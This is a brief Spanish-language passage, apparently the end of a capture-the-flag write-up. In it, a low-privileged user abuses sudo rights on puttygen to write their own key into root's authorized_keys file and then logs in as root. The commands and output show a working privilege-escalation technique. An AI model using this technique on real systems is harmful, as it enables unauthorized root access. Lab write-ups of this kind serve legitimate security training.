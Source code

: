 Seguimos los siguientes pasos, nos conectamos por **SSH** con la clave generada y logramos leer el contenido del fichero *root.txt*:

```
mark@gen:~$ puttygen -t rsa -b 2048 -o id_rsa-root.ppk
+++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++
Enter passphrase to save key: 
Re-enter passphrase to verify: 
mark@gen:~$ puttygen id_rsa-root.ppk -O private-openssh -o id_rsa
mark@gen:~$ sudo -u root puttygen id_rsa-root.ppk -O public-openssh -o /root/.ssh/authorized_keys
mark@gen:~$ ssh root@localhost -i id_rsa
root@gen:~# id
uid=0(root) gid=0(root) grupos=0(root)
*************************
root@gen:~# 

```
¡Hasta la próxima! ¡Que la “suerte” os acompañe!